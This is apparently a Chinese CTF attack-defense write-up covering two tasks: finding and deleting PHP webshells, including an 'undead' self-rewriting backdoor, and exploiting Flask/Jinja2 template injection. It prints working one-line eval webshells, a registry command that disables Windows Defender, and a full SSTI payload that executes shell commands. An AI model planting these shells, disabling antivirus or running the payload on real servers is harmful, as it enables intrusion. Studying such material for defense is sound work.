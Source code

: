 # 1.\<?php @eval($_POST['cmd']);?>
👴上来就把源码下下来了┗|｀O′|┛ 嗷~~ 很快啊

先用D盾扫一遍
发现如下几个🐎
```
/www/html/public/important.php
<?php @eval($_POST['cmd']);?>
```
这个🐎win10直接给杀了
不愧是他~~个nt~~
直接蚁剑连就彳亍
👴自己的网站要第一时间删除
```
/www/html/public/.undead.php
<?php
set_time_limit(0); 
ignore_user_abort(1);
unlink(__FILE__);
while(1)
{    
    file_put_contents('shell.php','<?php @eval($_POST["password"]);?>');  
    sleep(0);
}
```
这个🐎win10也给杀了就离谱
放一个关win10安全中心的命令
```
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender" /v "DisableAntiSpyware" /d 1 /t REG_DWORD /f
```
这是一个生成不死🐎的php脚本
第一时间删了就彳亍了
用如下命令直接运行
```
php ./.undead.php
```
~~但👴队当时不会用~~
顺便把info.php删了
~~但👴队当时也不会用~~
[相关漏洞](https://blog.csdn.net/u012206617/article/details/109003244?ops_request_misc=&request_id=&biz_id=102&utm_term=phpinfo%25E6%25BC%258F%25E6%25B4%259E%25E5%2588%25A9%25E7%2594%25A8&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduweb~default-2-109003244.first_rank_v2_pc_rank_v29)

👴队当时(包括现在)都不会传🐎
白名单直接把/php类/.htaccess扬了
图片🐎传上去也连不了
⑧彳亍
那么，问题来了，为啥不直接把/public扬了？反正也不影响核心功能

###### 总结
手速很重要，找到一句话🐎🐎上删除然后就能打全场
被打就扫D盾，总能扫到一起奇奇怪怪的东西~~比如在根目录藏🐎<?php @eval($_POST['sinon']);?>~~
记得帮别人修🐎，防止其他队反复利用


# 2.模板注入

看👴的源码，有app文件夹，里面是python文件，然后看到“render_template_string”，是模板注入。

然后乱注，⑧彳亍。

学长提醒要触发error才行，直接ip/error/,乱注，⑧彳亍。

学长又提醒，前段有逻辑漏洞，把require删了，能触发error，{{7*7}}，彳亍。

找重载过的类，0试到100多⑧彳亍。搜file,warning.catch...发现有”warnings.catch_warnings“，实验手册有现成循环语句
1 
```
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__=='catch_warnings' %}
{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('ls ').read()")}}{% endif %}
{% endfor %}
```
把'ls'改成'cat flag'找到了原题的flag交了⑧彳亍

学长双提醒改成’cat /flag'，彳亍。
###### 总结
学长，🐂
